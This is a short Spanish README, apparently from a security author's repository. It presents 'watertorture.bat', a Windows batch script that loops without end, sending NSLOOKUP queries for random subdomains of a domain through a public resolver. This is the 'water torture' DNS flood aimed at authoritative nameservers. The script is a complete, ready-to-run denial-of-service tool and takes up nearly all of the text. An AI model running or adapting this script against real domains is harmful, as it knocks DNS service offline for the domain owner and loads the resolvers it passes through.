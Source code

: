 # watertorture

watertorture.bat ;Water Torture DNS autoritativo con proceso por lotes Bath MS-DOS:
Consultas subdominios aleatorios de un dominio.

@ECHO OFF

ECHO Water Torture DNS autoritativo. (c) hackingyseguridad 2016. Version 1.

:loop

SET/A ran=%random%

NSLOOKUP %ran%.hackingyseguridad.es 8.8.8.8

goto loop

#
# www.hackingyseguridad.com
#

